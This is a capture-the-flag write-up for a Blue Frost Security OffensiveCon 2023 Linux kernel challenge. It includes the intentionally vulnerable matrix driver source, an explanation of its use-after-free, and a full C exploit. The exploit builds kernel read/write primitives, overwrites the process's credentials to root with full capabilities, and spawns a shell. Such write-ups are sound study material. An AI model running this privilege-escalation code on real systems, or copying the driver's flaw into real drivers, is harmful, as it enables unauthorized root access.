





**Blue Frost Security** published a small kernel challenge at **OffensiveCon 2023**,

then make it public for everyone to give it a try:   https://twitter.com/bluefrostsec/status/1665999954433720321?s=20

It was a small and easy kernel challenge, and here is a write-up for it:

### 1 - Challenge Overview

The challenge is a device driver running on kernel 6.0.15.

The driver source code is provided, and the kernel and module with debug symbols are provided too.

```c
#include <linux/miscdevice.h>
#include <linux/fs.h>
#include <linux/file.h>
#include <linux/kernel.h>
#include <linux/module.h>
#include <linux/slab.h>
#include <linux/spinlock.h>
#include <asm/io.h>

#define MAX_MATRIX_NAME 16
#define DEF_MATRIX_ROWS 64
#define DEF_MATRIX_COLS 64
#define MAX_MATRIX_ROWS 1000
#define MAX_MATRIX_COLS 1000
#define DEF_MATRIX_NAME "default_matrix"

struct matrix
{
  int rows;                 // number of rows in the matrix
  int cols;                 // number of columns in the matrix
  uint8_t* data;            // 1-d backing data (rows x cols size)
  char name[MAX_MATRIX_NAME]; // name of the matrix
  struct matrix* link;      // linked peer
  struct task_struct* task; // owner of the object
  spinlock_t lock;          // fine grained locking
};


struct matrix_info
{
  int rows;
  int cols;
};

struct matrix_pos
{
  int row;
  int col;
  uint8_t byte;
};

#define IOCTL_MATRIX_SET_NAME _IOWR('s', 1, void*)
#define IOCTL_MATRIX_GET_NAME _IOWR('s', 2, void*)
#define IOCTL_MATRIX_GET_INFO _IOWR('s', 3, struct matrix_info)
#define IOCTL_MATRIX_SET_INFO _IOWR('s', 4, struct matrix_info)
#define IOCTL_MATRIX_GET_POS  _IOWR('s', 5, struct matrix_pos)
#define IOCTL_MATRIX_SET_POS  _IOWR('s', 6, struct matrix_pos)
#define IOCTL_MATRIX_DO_LINK  _IOWR('s', 7, int)

static int matrix_open(struct inode* inode, struct file* file);
static int matrix_release(struct inode* inode, struct file* file);
static int matrix_do_link(struct matrix* matrix, int ufd);

static void reset_matrix_locked(struct matrix* matrix)
{
  if (matrix)
  {
    matrix->rows = 0;
    matrix->cols = 0;
    if (matrix->link)
      matrix->link->link = NULL;
  }
}

static int bfs_matrix_pos(
  struct matrix* matrix,
  struct matrix_pos __user* upos,
  int write)
{
  uint8_t* byte = NULL;
  struct matrix* target = NULL;

  struct matrix_pos kpos = {0};
  if (copy_from_user(&kpos, upos, sizeof(struct matrix_pos)))
    return -EFAULT;

  spin_lock(&matrix->lock);

  // if write mode, then we use the link
  if (write)
  {
    if (matrix->link)
    {
      target = matrix->link;
      spin_lock(&target->lock);
    }

    spin_unlock(&matrix->lock);
  }
  else
  {
    target = matrix;
  }

  // if we try to write to a matrix without a link then bail out
  if (! target)
    return -EINVAL;

  // check the given row is in bounds
  if (kpos.row < 0 || kpos.row >= target->rows)
    goto err;

  // check the given column is in bounds
  if (kpos.col < 0 || kpos.col >= target->cols)
    goto err;

  /* access the matrix in column major order
   *
   *     [ 1 2 3 ]
   * A = [ 4 5 6 ]
   *     [ 7 8 9 ]
   *
   * 1-D (column-major) A (rows=3, cols=3)= [ 1 4 7 2 5 8 3 6 9]
   * min_row=0 max_row=2, min_col=0, max_col=2
   * row=0,col=0 A[0][0] = (0 * 3) + 0 = A[0] = 1
   * row=1,col=2 A[1][2] = (2 * 3) + 1 = A[7] = 6
   * row=2,col=2 A[2][2] = (2 * 3) + 2 = A[8] = 9
   */

  byte = &target->data[kpos.col * target->cols + kpos.row];

  if (write)
    *byte = kpos.byte;
  else
    kpos.byte = *byte;

  spin_unlock(&target->lock);

  if (copy_to_user(upos, &kpos, sizeof(struct matrix_pos)))
    return -EFAULT;

  return 0;

err:
  spin_unlock(&target->lock);
  return -EINVAL;
}

static int matrix_get_info(struct matrix* matrix, struct matrix_info __user* info)
{
  struct matrix_info kinfo = { 0 };
  kinfo.rows = matrix->rows;
  kinfo.cols = matrix->cols;
  if (copy_to_user(info, &kinfo, sizeof(struct matrix_info)))
    return -EFAULT;
  return 0;
}

static int matrix_set_info(struct matrix* matrix, struct matrix_info __user* info)
{
  struct matrix_info kinfo = {0};
  if (copy_from_user(&kinfo, info, sizeof(struct matrix_info)))
    return -EFAULT;

  if (kinfo.rows < 0 || kinfo.rows > MAX_MATRIX_ROWS)
    return -EINVAL;

  if (kinfo.cols < 0 || kinfo.cols > MAX_MATRIX_COLS)
    return -EINVAL;

  spin_lock(&matrix->lock);

  matrix->rows = kinfo.rows;
  matrix->cols = kinfo.cols;

  if (matrix->data)
    kfree(matrix->data);

  matrix->data = kmalloc(matrix->rows * matrix->cols, GFP_KERNEL);
  if (! matrix->data)
  {
    reset_matrix_locked(matrix);
    spin_unlock(&matrix->lock);
    return -ENOMEM;
  }

  spin_unlock(&matrix->lock);

  return 0;
}

static int matrix_set_name(struct matrix* matrix, char __user* name)
{
  if (copy_from_user(matrix->name, name, sizeof(matrix->name)))
    return -EFAULT;
  return 0;
}

static int matrix_get_name(struct matrix* matrix, char __user* name)
{
  if (copy_to_user(name, matrix->name, sizeof(matrix->name)))
    return -EFAULT;
  return 0;
}

static long matrix_ioctl(
  struct file* file,
  unsigned int code,
  unsigned long arg)
{
  struct matrix* matrix = file->private_data;

  switch (code)
  {
    case IOCTL_MATRIX_SET_NAME:
      return matrix_set_name(matrix, (char __user*) arg);
    case IOCTL_MATRIX_GET_NAME:
      return matrix_get_name(matrix, (char __user*) arg);
    case IOCTL_MATRIX_SET_INFO:
      return matrix_set_info(matrix, (struct matrix_info __user*) arg);
    case IOCTL_MATRIX_GET_INFO:
      return matrix_get_info(matrix, (struct matrix_info __user*) arg);
    case IOCTL_MATRIX_GET_POS:
      return bfs_matrix_pos(matrix, (struct matrix_pos __user*) arg, 0);
    case IOCTL_MATRIX_SET_POS:
      return bfs_matrix_pos(matrix, (struct matrix_pos __user*) arg, 1);
    case IOCTL_MATRIX_DO_LINK:
      return matrix_do_link(matrix, arg);
    default:
      return -EINVAL;
  }
}

struct file_operations const matrix_fops =
{
  .owner          = THIS_MODULE,
  .unlocked_ioctl = matrix_ioctl,
  .open           = matrix_open,
  .release        = matrix_release,
};

static int matrix_do_link(struct matrix* matrix, int ufd)
{
  int error = -EINVAL;

  struct matrix* link = NULL;

  // grab a reference to the file
  struct fd f = fdget(ufd);
  if (! f.file)
    return -EBADF;

  // check that the actual description belongs to a matrix
  link = f.file->private_data;
  if (f.file->f_op != &matrix_fops)
    goto err;

  if (matrix == link)
    goto err;

  if (matrix < link)
  {
    spin_lock(&matrix->lock);
    spin_lock(&link->lock);
  }
  else
  {
    spin_lock(&link->lock);
    spin_lock(&matrix->lock);
  }

  // make a new link
  matrix->link = link;
  link->link = matrix;

  spin_unlock(&matrix->lock);
  spin_unlock(&link->lock);

  error = 0;

err:
  fdput(f);

  return error;
}


static int matrix_open(struct inode* inode, struct file* file)
{
  struct matrix* matrix = NULL;

  // alloc a new matrix
  file->private_data = kzalloc(sizeof(struct matrix), GFP_KERNEL);
  if (! file->private_data)
    return -ENOMEM;

  matrix = file->private_data;

  // intialize the default matrix
  matrix->rows = DEF_MATRIX_ROWS;
  matrix->cols = DEF_MATRIX_COLS;

  strcpy(matrix->name, DEF_MATRIX_NAME);

  matrix->data = kzalloc(matrix->rows * matrix->cols, GFP_KERNEL);
  if (! matrix->data)
  {
    kfree(file->private_data);
    file->private_data = NULL;
    return -ENOMEM;
  }

  // set the current task as owner
  matrix->task = current;

  spin_lock_init(&matrix->lock);

  return 0;
}

static int matrix_release(struct inode* inode, struct file* file)
{
  struct matrix* matrix = file->private_data;

  spin_lock(&matrix->lock);

  // unlink from pair
  if (matrix->link)
    matrix->link->link = NULL;

  // release data
  if (matrix->data)
    kfree(matrix->data);

  spin_unlock(&matrix->lock);

  // release the matrix
  kfree(matrix);

  return 0;
}

struct miscdevice matrix_misc = {
  .fops  = &matrix_fops,
  .minor = MISC_DYNAMIC_MINOR,
  .name  = "bfs_matrix",
};

static int __init misc_init(void)
{
  int error = 0;

  error = misc_register(&matrix_misc);
  if (error < 0)
    pr_err("couldn't register device");

  return error;
}

static void __exit misc_exit(void)
{
  misc_deregister(&matrix_misc);
}

module_init(misc_init);
module_exit(misc_exit);

MODULE_LICENSE("GPL");
```

so... in the driver you can create a matrix structure which is addressable by a filedescriptor, the matrix structure look like this:

```c
struct matrix
{
  int rows;                 // number of rows in the matrix
  int cols;                 // number of columns in the matrix
  uint8_t* data;            // 1-d backing data (rows x cols size)
  char name[MAX_MATRIX_NAME]; // name of the matrix
  struct matrix* link;      // linked peer
  struct task_struct* task; // owner of the object
  spinlock_t lock;          // fine grained locking
};
```

the rows and cols values are initialized to 64 by 64, and a chunk of (64 * 64 --> 4096 bytes) is allocated by default for each matrix.

the task pointer is initialized to point on current user task structure.

you can also link two matrix,  the link pointer of the first one will point to the second one, and link of the second will point to the first one.

you can also change rows and cols value, the data chunk will be freed, and a new chunk will be allocated for data of size (rows * cols)

you can write and read a byte in matrix data chunk, with function `bfs_matrix_pos()`,  the write is done in the matrix pointed by the link entry (so the linked one), and the read is done in the same matrix.

you can also free matrix, with `matrix_release()` , in this case the matrix chunk and it's data chunk will be freed,  

### 2 - The vulnerability

There is an UAF vulnerability, when you linked many matrix together, if you release one of them in between, the previous linked matrix still has a pointer to it. So trying to write a byte to the previous linked matrix, will write in the just freed matrix..

that's the vulnerability we will exploit.

So here is the plan:

* first we will allocate five matrix named `fd1`,`fd2`,`fd3`,`fd4` and `fd5`, like this:

  ```python
  	fd1 =  matrix_new();
  	fd2 =  matrix_new();
  	fd3 =  matrix_new();
  	fd4 =  matrix_new();
  	fd5 =  matrix_new();
  ```

  

  

like you can see in the picture above each matrix is allocated in the `kmalloc-64` slub cache,  and the data, that is initialized as 64x64 size, is allocated in the `Kmalloc-4k` cache.

* second step is to link the matrix together 

  ```python
  matrix_do_link(fd1,fd2);
  matrix_do_link(fd2,fd3);
  matrix_do_link(fd3,fd4);
  matrix_do_link(fd4,fd5);
  ```

  

* third step if to free fd2 matrix.

```python
close(fd2);
```



now the `fd1` links ptr will point to the just freed `fd2` chunk, that's the UAF.

* fourth set, is to change `fd5` data size to 8 * 8 (so a 64 bytes chunk), so that it will be allocated in the just freed `fd2` matrix chunk in `kmalloc-64` cache.

  

ok.. now we have the ideal configuration.

If we read bytes into `fd5`, it will read from data ptr that point to our `fd2` freed chunk, so like this we can leak `task_struct` addr, and heap addresss to calculate next matrix `fd3` address.

like this:

```python
	for (i=0, task_struct=0; i<8; i++)
		task_struct |= (uint64_t)matrix_get_pos(fd5,i,5)<<(i<<3);
	printf("task_struct = 0x%llx\n", task_struct);

	// calculate address of fd3
	for (i=0, fd3_addr=0; i<8; i++)
		fd3_addr |= (uint64_t)matrix_get_pos(fd5,i,4)<<(i<<3);
	fd3_addr -= 0xc0;
	printf("fd3_addr = 0x%llx\n", fd3_addr);
```

if we write in `fd4`, actually we will write in `fd2` freed chunk. so we can modify data pointer in `fd2` freed chunk , to points to a specific address in memory, and then use the UAF by writing in `fd1`, that will write what we want to this address. Like this we can build our write primitive.

```c
void kwrite64(uint64_t addr, uint64_t value)
{
int i;
	// set data ptr in fd2
	for (i=0; i<8; i++)
		matrix_set_pos(fd4,i,1, (uint8_t)(addr>>(i<<3))&0xff );
	// write value in addr
	for (i=0; i<8; i++)
		matrix_set_pos(fd1,i,0, (uint8_t)(value>>(i<<3))&0xff );
}
```

for the read primitive, we can use the calculated address of `fd3`, and write it's data ptr with our write primitive to the address we want to read. Then by reading `fd3`, we can read where we want, like this:

```c
uint64_t kread64(uint64_t addr)
{
int i;
uint64_t val;
	
	// set fd3 data pt to addr
	kwrite64(fd3_addr + 8, addr);
	// read addr 
	for (i=0, val=0; i<8; i++)
		val |= (uint64_t)matrix_get_pos(fd3,i,0)<<(i<<3);
	return (val);
}
```

Now we have all we need for our exploit,

Here is the final version of the exploit:

```c
#include <stdio.h>
#include <stdlib.h>
#include <stdint.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <err.h>
#include <sys/ioctl.h>
#include <string.h>
#include <stddef.h>
#include <sys/prctl.h>
#include <unistd.h>

#define DEVICE_NAME "/dev/bfs_matrix"

#define MAX_MATRIX_NAME 16

#define IOCTL_MATRIX_SET_NAME _IOWR('s', 1, void*)
#define IOCTL_MATRIX_GET_NAME _IOWR('s', 2, void*)
#define IOCTL_MATRIX_GET_INFO _IOWR('s', 3, struct matrix_info)
#define IOCTL_MATRIX_SET_INFO _IOWR('s', 4, struct matrix_info)
#define IOCTL_MATRIX_GET_POS  _IOWR('s', 5, struct matrix_pos)
#define IOCTL_MATRIX_SET_POS  _IOWR('s', 6, struct matrix_pos)
#define IOCTL_MATRIX_DO_LINK  _IOWR('s', 7, int)

// global vars
uint64_t task_struct, fd3_addr;
int fd1,fd2,fd3,fd4,fd5;

struct matrix_info
{
  int rows;
  int cols;
};

struct matrix_pos
{
  int row;
  int col;
  uint8_t byte;
};

// Undefine this if you don't want debug trazes
#define DEBUG 1

#ifdef DEBUG
#define DBG_PRINT(...)  do { fprintf(stderr, __VA_ARGS__); } while (0)
#else
#define DBG_PRINT(...)  do { } while (0)
#endif

// ----------------------------------------------------------------------------
// Exploit primitives, you need to fill them!

uint64_t kread64(uint64_t addr);
void kwrite64(uint64_t addr, uint64_t value);

// ----------------------------------------------------------------------------
// Helper functions for the exploit

uint32_t kread32(uint64_t addr)
{
  return kread64(addr);
}

void kwrite32(uint64_t addr, uint32_t value)
{
  uint32_t hi_dword = kread64(addr) >> 32;
  kwrite64(addr, ((uint64_t) hi_dword << 32) | value);
}

// Given a task structure address, patches its credentials.
void patch_creds(uint64_t task_struct)
{
#define DELTA_CREDS 0x498
  uint64_t task_creds = kread64(task_struct + DELTA_CREDS);

  struct cred
  {
    uint32_t usage;
    uint32_t uid;             /* real UID of the task */
    uint32_t gid;             /* real GID of the task */
    uint32_t suid;            /* saved UID of the task */
    uint32_t sgid;            /* saved GID of the task */
    uint32_t euid;            /* effective UID of the task */
    uint32_t egid;            /* effective GID of the task */
    uint32_t fsuid;           /* UID for VFS ops */
    uint32_t fsgid;           /* GID for VFS ops */
    uint32_t securebits;      /* SUID-less security management */
    uint64_t cap_inheritable; /* caps our children can inherit */
    uint64_t cap_permitted;	  /* caps we're permitted */
    uint64_t cap_effective;	  /* caps we can actually use */
    uint64_t cap_bset;	      /* capability bounding set */
  };

#define GLOBAL_ROOT_UID     0
#define GLOBAL_ROOT_GID     0
#define SECURE_BITS_DEFAULT 0
#define CAP_EMPTY_SET       0
#define CAP_FULL_SET        -1

  kwrite32(task_creds + offsetof(struct cred, uid),   GLOBAL_ROOT_UID);
  kwrite32(task_creds + offsetof(struct cred, gid),   GLOBAL_ROOT_GID);
  kwrite32(task_creds + offsetof(struct cred, suid),  GLOBAL_ROOT_UID);
  kwrite32(task_creds + offsetof(struct cred, sgid),  GLOBAL_ROOT_GID);
  kwrite32(task_creds + offsetof(struct cred, euid),  GLOBAL_ROOT_UID);
  kwrite32(task_creds + offsetof(struct cred, egid),  GLOBAL_ROOT_GID);
  kwrite32(task_creds + offsetof(struct cred, fsuid), GLOBAL_ROOT_UID);
  kwrite32(task_creds + offsetof(struct cred, fsgid), GLOBAL_ROOT_GID);
  kwrite32(task_creds + offsetof(struct cred, securebits), SECURE_BITS_DEFAULT);
  kwrite64(task_creds + offsetof(struct cred, cap_inheritable), CAP_EMPTY_SET);
  kwrite64(task_creds + offsetof(struct cred, cap_permitted),   CAP_FULL_SET);
  kwrite64(task_creds + offsetof(struct cred, cap_effective),   CAP_FULL_SET);
  kwrite64(task_creds + offsetof(struct cred, cap_bset),        CAP_FULL_SET);

  DBG_PRINT("[+] patched credentials %lx (task=%lx)\n", task_creds, task_struct);
}

// Receives the kernel base address and returns the task structure of the
// current task.
uint64_t lookup_current_task(uint64_t kbase)
{
  char new_task_name[] = "bfs_findme";

  if (prctl(PR_SET_NAME, new_task_name, 0, 0, 0) < 0)
    errx(1, "couldn't set new task name");

#define DELTA_INIT_TASK 0xa26600
  uint64_t init_task = kbase + DELTA_INIT_TASK;

#define DELTA_COMM  0x4a0
#define DELTA_TASKS 0x230

  uint64_t current_task = init_task;

  do
  {
    char task_name[17] = {0};

    *(uint64_t*) &task_name[0] = kread64(current_task + DELTA_COMM);
    *(uint64_t*) &task_name[8] = kread64(current_task + DELTA_COMM + 8);

    printf("[*] %lx -> %s\n", current_task, task_name);

    if (! strcmp(task_name, new_task_name))
      return current_task;

    current_task = kread64(current_task + DELTA_TASKS) - DELTA_TASKS;

  } while (current_task != init_task);

  errx(1, "couldn't find current task");
}

// ----------------------------------------------------------------------------
// Interface for interacting with the driver

void matrix_do_link(int fd, int link_fd)
{
  if (ioctl(fd, IOCTL_MATRIX_DO_LINK, link_fd) < 0)
    errx(1, "couldn't link matrix\n");

  DBG_PRINT("[*] matrix linked\n");
}

uint8_t matrix_get_pos(int fd, int row, int col)
{
  struct matrix_pos pos = {0};

  pos.row = row;
  pos.col = col;

  if (ioctl(fd, IOCTL_MATRIX_GET_POS, &pos) < 0)
    errx(1, "couldn't get matrix pos");

  DBG_PRINT("[*] matrix pos: matrix[%04d][%04d]=%02x\n", row, col, pos.byte);

  return pos.byte;
}

void matrix_set_pos(int fd, int row, int col, uint8_t value)
{
  struct matrix_pos pos = {0};

  pos.row = row;
  pos.col = col;
  pos.byte = value;

  if (ioctl(fd, IOCTL_MATRIX_SET_POS, &pos) < 0)
    errx(1, "couldn't set matrix pos");

  DBG_PRINT("[*] updated matrix pos: matrix[%04d][%04d]=%02x\n", row, col, value);
}

struct matrix_info matrix_get_info(int fd)
{
  struct matrix_info info = {0};

  if (ioctl(fd, IOCTL_MATRIX_GET_INFO, &info) < 0)
    errx(1, "couldn't get matrix info");

  DBG_PRINT("[*] matrix info: rows=%d columns=%d\n", info.rows, info.cols);

  return info;
}

void matrix_set_info(int fd, int rows, int cols)
{
  struct matrix_info info = {0};

  info.rows = rows;
  info.cols = cols;

  if (ioctl(fd, IOCTL_MATRIX_SET_INFO, &info) < 0)
    errx(1, "couldn't set matrix info");

  DBG_PRINT("[*] matrix info updated to: rows=%d columns=%d\n", rows, cols);
}

char* matrix_get_name(int fd)
{
  char name[MAX_MATRIX_NAME+1] = {0};

  if (ioctl(fd, IOCTL_MATRIX_GET_NAME, name) < 0)
    errx(1, "couldn't get matrix name");

  DBG_PRINT("[*] matrix name: %s\n", name);

  return strdup(name);
}

void matrix_set_name(int fd, char* name)
{
  if (ioctl(fd, IOCTL_MATRIX_SET_NAME, name) < 0)
    errx(1, "couldn't set matrix name");

  DBG_PRINT("[*] matrix name updated\n");
}

int matrix_new()
{
  int fd = open(DEVICE_NAME, O_RDWR);
  if (fd < 0)
    errx(1, "couldn't open device");

  DBG_PRINT("[*] new matrix fd: %d\n", fd);

  return fd;
}

// ----------------------------------------------------------------------------
// Exploit begins here

uint64_t kread64(uint64_t addr)
{
int i;
uint64_t val;
	
	// set fd3 data pt to addr
	kwrite64(fd3_addr + 8, addr);
	// read addr 
	for (i=0, val=0; i<8; i++)
		val |= (uint64_t)matrix_get_pos(fd3,i,0)<<(i<<3);
	return (val);
}

void kwrite64(uint64_t addr, uint64_t value)
{
int i;
	// set data ptr in fd2
	for (i=0; i<8; i++)
		matrix_set_pos(fd4,i,1, (uint8_t)(addr>>(i<<3))&0xff );
	// write value in addr
	for (i=0; i<8; i++)
		matrix_set_pos(fd1,i,0, (uint8_t)(value>>(i<<3))&0xff );
}

int main(int argc, char* argv[argc+1])
{
int i;

	fd1 =  matrix_new();
	fd2 =  matrix_new();
	fd3 =  matrix_new();
	fd4 =  matrix_new();
	fd5 =  matrix_new();

	// interleave 4 matrices
	matrix_do_link(fd1,fd2);
	matrix_do_link(fd2,fd3);
	matrix_do_link(fd3,fd4);
	matrix_do_link(fd4,fd5);

	close(fd2);
	matrix_set_info(fd5,8,8);

	// leak address of task_struct from fd2
	for (i=0, task_struct=0; i<8; i++)
		task_struct |= (uint64_t)matrix_get_pos(fd5,i,5)<<(i<<3);
	printf("task_struct = 0x%llx\n", task_struct);

	// leak heap address from fd2, and calculate address of fd3
	for (i=0, fd3_addr=0; i<8; i++)
		fd3_addr |= (uint64_t)matrix_get_pos(fd5,i,4)<<(i<<3);
	fd3_addr -= 0xc0;
	printf("fd3_addr = 0x%llx\n", fd3_addr);

	// now we can patch task_struct to give us root
	patch_creds(task_struct);
 
	// got shell
	setgid(0);
	setuid(0);
	system("/bin/sh");

 return EXIT_SUCCESS;
}
```

as always..

seeing is believing..



*nobodyisnobody still pwning..*